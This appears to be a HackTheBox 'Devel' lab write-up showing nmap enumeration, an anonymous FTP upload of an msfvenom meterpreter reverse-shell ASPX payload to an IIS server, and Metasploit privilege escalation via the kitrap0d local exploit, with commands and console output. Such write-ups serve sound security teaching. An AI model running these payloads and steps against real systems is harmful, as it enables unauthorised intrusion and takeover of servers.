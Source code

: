```yaml
---
layout: page
title: HackTheBox Devel Writeup
---
```


Devel is a HackTheBox machine that involves vulnerability with default configuration of services on a server. By dropping a webshell, I was able to get initial access into the webserver as a low privileged user. By doing more enumeration, certain metasploit modules are found that can be utilized to escalate to System.

### Enumeration
Using zenmap, we get the following result:

![devel](https://user-images.githubusercontent.com/41026969/52419510-3ef66a00-2abe-11e9-9120-d5dbd65426ec.PNG)

Similarly, we can use command line nmap to view information about the machine. In this case the command I use is ```nmap -sC -sV -oA devel 10.10.10.5```. To quickly explain what's after the ```nmap```: ```-sC``` will preform the default scrips for scanning a network (note: this scan can be considered intrusive, so use on networks that you have permission on only), ```-sV``` runs a version scan, ```-oA [name]``` will store the output that you can read, in this case, we named the file devel, to read the output that nmap found we can simple do ```cat devel.nmap```. Here's the output that doing the scan does:

![devel](https://user-images.githubusercontent.com/41026969/52517060-1b890780-2c03-11e9-95c2-abcc419c7664.png)

We see that port 21 and port 80 are both open. I did some researching on what these ports do: port 21 is used for FTP which stands for file transfer protocol. ```FTP servers open their machine's port 21 and listen for incoming client connections. FTP clients connect to port 21 of remote FTP servers to initiate file transfer operations.``` Port 80 is assigned to HTTP, it's the port that the computer sends/receives from a web server; also used to send/receive HTML pages or data. 

Pulling up the webpage of the IP address (10.10.10.5), we get the default IIS webpage:

![devel](https://user-images.githubusercontent.com/41026969/52517115-03fe4e80-2c04-11e9-8e4b-c300b8c66908.png)

From the enumeration methods above, we see that ```ftp``` (port 21) is OPEN and that ```Anonymous login allowed```. This means we can get access through logging in as ```Anonymous``` and it'll accept any password. Also we find out that the server runs on Microsoft-IIS version 7.5

So playing around with the FTP server, I first make an ```.html``` file by doing ```echo WillThisGoThrough? > test.html```. Now since this server DOES allow anonymous access, we can ```ftp 10.10.10.5``` and login as user ```anonymous``` and type in any password and it'll give us a shell. I then upload the ```test.html``` file and we can see that the server does indeed receive and that we can access it. This can be our point of exploitation. Here it is shown below:

![devel](https://user-images.githubusercontent.com/41026969/52517203-a8cd5b80-2c05-11e9-9633-31973581765e.png)

So to see if the message ```WillThisGoThrough?``` went through, we can try and access it by going to the webpage ```10.10.10.5/test.html```. And we see that it has indeed went through:

![devel](https://user-images.githubusercontent.com/41026969/52517212-de724480-2c05-11e9-90a4-1fa6338529c4.png)

So since this is an IIS server, it does execute code, usually asp or aspx (basically source code/scripts that are used to generate how the webage should be opened and displayed). Since we know from enumeration that this machine is likely running on Windows 2008, it's likely that it's running aspx which is .NET base (asp is used mainly for older, early 2000s OS).

### Exploitation 
With what we know, we can start using ```msfvenom``` to create us a payload. Doing ```msfvenom -h``` will bring up the help screen that will show the syntax and options used.

So to list all the windows exploits we can do:
```
msfvenom --list payload | grep windows
```
note: this may take a minute to complete. After it is done, it will create a list of all the types of payloads that can be used. For this challenge, I want to use a metrepeter reverse tcp, as if I use an 64 bit exploit, it WILL NOT work on a 32 bit machine (we do not know if this machine is 32 or 64 bit, so using a reverse tcp shell is the safest). 

Scrolling up a bit, we see something we can use: ```windows/meterpreter/reverse_tcp```

Looking back at the help screen of msfvenom (```msfvenom -h```) I see the different options I can use to create the payload. This is how the command looks like:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local IP] LPORT=[local port] -f aspx -o develExploit.aspx 
```
Then we ftp back into the server and upload the listener:

![devel](https://user-images.githubusercontent.com/41026969/52536905-6ce1e580-2d2e-11e9-9cf8-f5c9d6a5ab41.png)

So now we can use metasploit (```msfconsole```) to start. First I do ```use exploit/multi/handler``` then set the payload to the same thing we used in msfvenom: ```msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp```. Then I set the LHOST to ```tun0```. Then I ```run```. Going back to the IP website of the machine and using the exploit we created (```http://10.10.10.5/develExploit.aspx```) it will create a metrepreter session.

Once we get a session, we can do ```sysinfo``` to get more information about the machine. Furthermore, we can use ```shell``` to get a shell (though not admin). Here's what it looks like:

![devel](https://user-images.githubusercontent.com/41026969/52537080-7f5d1e80-2d30-11e9-804f-9381c698ec58.png)
![devel](https://user-images.githubusercontent.com/41026969/52537094-a6b3eb80-2d30-11e9-8890-c3fdcd8c903b.png)

Backing out by exiting the meterpreter session (use command ```background```), we can use ```msf > post/multi/recon/local_exploit_suggester``` to bring up a list of suggested exploits based on the machine we just accessed. Here's how it'll look like:
```
meterpreter > background
[*] Backgrounding session 1...

msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 39 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > 
```

For this machine I used ```exploit/windows/local/ms10_015_kitrap0d```. So here's the commands I did:
```msf exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d```

And now since the LHOST and LPORT changed to something different, I changed it back to the correct LHOST and LPORT (same ones I used for the reverse TCP listener in msfvenom):
```
msf exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms10_015_kitrap0d) > set LHOST [IP]
LHOST => [IP]
msf exploit(windows/local/ms10_015_kitrap0d) > set LPORT [Port]
LPORT => [Port]
msf exploit(windows/local/ms10_015_kitrap0d) > run
```
Doing so, we get access to the machine!:

![devel](https://user-images.githubusercontent.com/41026969/52537602-8850ee80-2d36-11e9-9d3e-c96c19d28940.png)

Directory to root flag: ```c:\Users\Administrator\Desktop>root.txt.txt```

Directory to user flag: ```c:\Users\babis\Desktop>user.txt.txt```